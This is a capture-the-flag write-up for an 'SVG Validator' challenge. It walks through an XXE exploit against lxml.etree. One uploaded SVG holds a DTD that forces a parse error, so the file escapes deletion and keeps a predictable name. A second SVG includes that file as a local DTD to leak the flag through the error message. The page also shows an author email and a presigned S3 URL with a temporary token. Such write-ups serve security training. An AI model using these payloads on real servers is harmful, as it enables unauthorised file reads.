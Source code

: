 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466VWQ76M2X%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T130136Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDUaCXVzLXdlc3QtMiJHMEUCIFKs%2F68p5E%2BHMaXi66E%2F%2FBLFn6qBRVMHHKaFPNItrodIAiEA2JEqFmuv4Bb6BjBA2CJbBjrngsXKHu%2FFeOGM4qk6E74qiAQI7v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDAGBAleV6Ft29eaFCircA8f5sY7YtvH5WOBgvic4TeGMun41SQU14FHUQbRoUtxocnoxa4D7OxDLq0qLowVSEOjMatMx20jNmWBek3W3eDMLT37TtQ98nP5Wuw8AkbElY95yiVEmznuYAIZ6WYMgeI6gvaYjxmVAeNqLgfpUHYU%2FeOnV0SxtGvruPHIW4kFoFOhQTVT9Q7lF23bs7JH5dvOaCjwo1ildDCtVXge9AsOvwGw9GjwFKIvGrZhwbxlKvHWlBn%2Fy2yk%2BpNOd260xNoDEY3NQobx9RSqv8bR7Bblnxrgdn61QgdTwciEm9cCHHijWtMNDqSakP6HVMcbWUlChAdAyFmGhQWIBCZEj6%2BwbVfr58SlcC7viBmad1OxMsg8EqmhgR5LcEzpWp6WgtGluY%2FqlyKsbWl1YYnFGm1vhKwgPyDS%2FmYTT0V1bJJSULOfWfgkbcdVLk1doZUjpV915yf2Py4Co2cMLMfm%2B%2Fo2XlhIXpbdHlB%2BDrtt9XFmt7eTNzDZp6s2jhvgZtNszY0MmlmA4JU0u7%2BKSyk3956Zf1Bqycl%2B3LUaRz0u70MT3pn7DTt2ImS3Doi0G2N%2FERu1S%2FUO%2FvvzAifxc7njWB6CQXkhpOM0N%2F4AOCbgZU4%2BaMYRYQsNuN4pqNDsRMInYwcEGOqUBO0KvHHIRPWErSf88xxxPaFdA2yhvPCGHiq0geebFqpaS8Yu4vSH73TiSWoCC8dsYPY%2BDo8qXxJNh3%2By6Bm9%2FbWSSX%2BmMyiAli5%2FKkLn%2BN54FNI0CRamQyVbW0pwtXg2hEj9SqY86MRalJxgp5QtKsxdwVYrXU6nnBiUejV1kb5raCtchM47cPoOeINqUjzbHWtXUHKkIkJ2Pp34UbzS3PKiOX9CW\&X-Amz-Signature=355f4132166c1d0cdb91a5ed938da538269c0a2305e33429fcef20e433c04160\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
